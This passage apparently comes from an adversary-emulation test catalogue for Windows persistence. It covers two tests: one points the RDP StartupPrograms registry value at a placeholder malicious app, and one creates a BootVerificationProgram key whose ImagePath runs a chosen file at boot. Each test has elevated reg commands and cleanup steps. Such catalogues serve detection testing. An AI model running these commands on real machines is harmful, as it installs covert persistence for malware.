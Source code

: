 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd" /f /v StartupPrograms /t REG_SZ /d "#{malicious_app}"
```

#### Cleanup Commands:
```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd" /f /v StartupPrograms /t REG_SZ /d "rdpclip"
```





<br/>
<br/>

## Atomic Test #19 - Creating Boot Verification Program Key for application execution during successful boot
Microsoft allows users to define a custom boot verification program for those situations by creating the registry key “HKLM\System\CurrentControlSet\Control\BootVerificationProgram” and setting the value of ImagePath to the path of boot verification program.Threat Actor
can abuse by creating this registry key and providing a malicious application to be executed during successful boot

**Supported Platforms:** Windows


**auto_generated_guid:** 6e1666d5-3f2b-4b9a-80aa-f011322380d4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| malicious_file | Application to be executed during successful boot | string | C:&#92;Program Files&#92;Internet Explorer&#92;iexplore.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKLM\System\CurrentControlSet\Control\BootVerificationProgram /v ImagePath /t REG_SZ /d "#{malicious_file}"
```

#### Cleanup Commands:
```cmd
reg delete HKLM\System\CurrentControlSet\Control\BootVerificationProgram /f
```

